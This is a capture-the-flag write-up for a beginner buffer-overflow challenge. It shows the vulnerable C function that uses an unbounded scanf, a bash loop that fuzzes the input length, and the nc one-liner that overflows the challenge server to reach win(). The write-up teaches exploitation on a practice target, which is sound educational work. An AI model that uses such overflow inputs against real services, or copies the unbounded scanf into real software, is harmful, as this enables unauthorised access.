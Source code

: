 # bof1
**Category:** Pwn

**Points:** 5

**Description:**

Author: kablaa

Pwn that buffer!

`nc ctf.hackucf.org 9000`

> **Files:** bof1, bof1.c, libpwnableharness64.so

## Write-up
This is a buffer overflow challenge, and the code file was provided.

Looking at the code the important function seemed to be `handle_connection()` as it contains a `scanf()` call into a buffer of 32 chars:
```c
void handle_connection(int sock) {
	int admin = 0;
	char buf[32];
	
	scanf("%s", buf);
	
	if(admin) {
		win();
	}
	else {
		puts("nope!");
	}
}
```

When the program runs it waits for input at this point, and overflowing the buffer may give a result. At first I tried overrunning by a single byte.
Initial I was typing by hand, but the realised Python could help with this:
```bash
> python -c "print ('A' * 33)" | ./bof1
nope!
```

This has no effect on the program and I decided to try overflowing until the program segmented as this can sometimes guide you as to where the function return address is. I created a script:
```bash
#!/bin/bash
for i in {33..100}
do
  output=$(python -c "print ('A' * $i)" | ./bof)
  echo "For $i output is $output"
done
```

I found that when the script hit 45 (and after), a different message was output:
```bash
> ./overflow.sh
For 33 output is nope!
For 34 output is nope!
For 35 output is nope!
For 36 output is nope!
For 37 output is nope!
For 38 output is nope!
For 39 output is nope!
For 40 output is nope!
For 41 output is nope!
For 42 output is nope!
For 43 output is nope!
For 44 output is nope!
For 45 output is error, contact admin
For 46 output is error, contact admin
For 47 output is error, contact admin
For 48 output is error, contact admin
For 49 output is error, contact admin
For 50 output is error, contact admin
...
```
I realised this was getting into the `win()` function, but didn't understand why it reported an error (the code shows this error is reported when the flag file was missing)
After spending a while thinking there must be more to the solution, eventually I realised it was just that I wasn't running on the server, so now ran:
```bash
> python -c "print('A' * 45)" | nc ctf.hackucf.org 9000
```

This worked, and gave me the flag.
